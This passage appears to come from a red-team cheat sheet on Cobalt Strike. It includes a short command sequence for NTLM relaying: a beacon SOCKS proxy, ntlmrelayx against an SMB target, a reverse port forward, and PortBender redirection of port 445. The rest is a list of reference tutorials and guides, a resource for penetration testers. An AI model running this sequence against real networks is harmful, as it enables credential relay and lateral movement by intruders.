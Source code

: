     # To compile this with x64 MinGW:
    x86_64-w64-mingw32-gcc -c hello.c -o hello.o
    ```
* Execute: `inline-execute /path/to/hello.o`

## NTLM Relaying via Cobalt Strike

```powershell
beacon> socks 1080
kali> proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://<IP_TARGET>
beacon> rportfwd_local 8445 <IP_KALI> 445
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
```

## References

* [Red Team Ops with Cobalt Strike (1 of 9): Operations](https://www.youtube.com/watch?v=q7VQeK533zI)
* [Red Team Ops with Cobalt Strike (2 of 9): Infrastructure](https://www.youtube.com/watch?v=5gwEMocFkc0)
* [Red Team Ops with Cobalt Strike (3 of 9): C2](https://www.youtube.com/watch?v=Z8n9bIPAIao)
* [Red Team Ops with Cobalt Strike (4 of 9): Weaponization](https://www.youtube.com/watch?v=H0_CKdwbMRk)
* [Red Team Ops with Cobalt Strike (5 of 9): Initial Access](https://www.youtube.com/watch?v=bYt85zm4YT8)
* [Red Team Ops with Cobalt Strike (6 of 9): Post Exploitation](https://www.youtube.com/watch?v=Pb6yvcB2aYw)
* [Red Team Ops with Cobalt Strike (7 of 9): Privilege Escalation](https://www.youtube.com/watch?v=lzwwVwmG0io)
* [Red Team Ops with Cobalt Strike (8 of 9): Lateral Movement](https://www.youtube.com/watch?v=QF_6zFLmLn0)
* [Red Team Ops with Cobalt Strike (9 of 9): Pivoting](https://www.youtube.com/watch?v=sP1HgUu7duU&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=10&t=0s)
* [A Deep Dive into Cobalt Strike Malleable C2 - Joe Vest - Sep 5, 2018 ](https://posts.specterops.io/a-deep-dive-into-cobalt-strike-malleable-c2-6660e33b0e0b)
* [Cobalt Strike. Walkthrough for Red Teamers - Neil Lines - 15 Apr 2019](https://www.pentestpartners.com/security-blog/cobalt-strike-walkthrough-for-red-teamers/)
* [TALES OF A RED TEAMER: HOW TO SETUP A C2 INFRASTRUCTURE FOR COBALT STRIKE – UB 2018 - NOV 25 2018](https://holdmybeersecurity.com/2018/11/25/tales-of-a-red-teamer-how-to-setup-a-c2-infrastructure-for-cobalt-strike-ub-2018/)
* [Cobalt Strike - DNS Beacon](https://www.cobaltstrike.com/help-dns-beacon)
* [How to Write Malleable C2 Profiles for Cobalt Strike - January 24, 2017](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
* [NTLM Relaying via Cobalt Strike - July 29, 2021 - Rasta Mouse](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)
* [Cobalt Strike - User Guide](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm)
* [Cobalt Strike 4.6 - User Guide PDF](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/cobalt-4-6-user-guide.pdf)
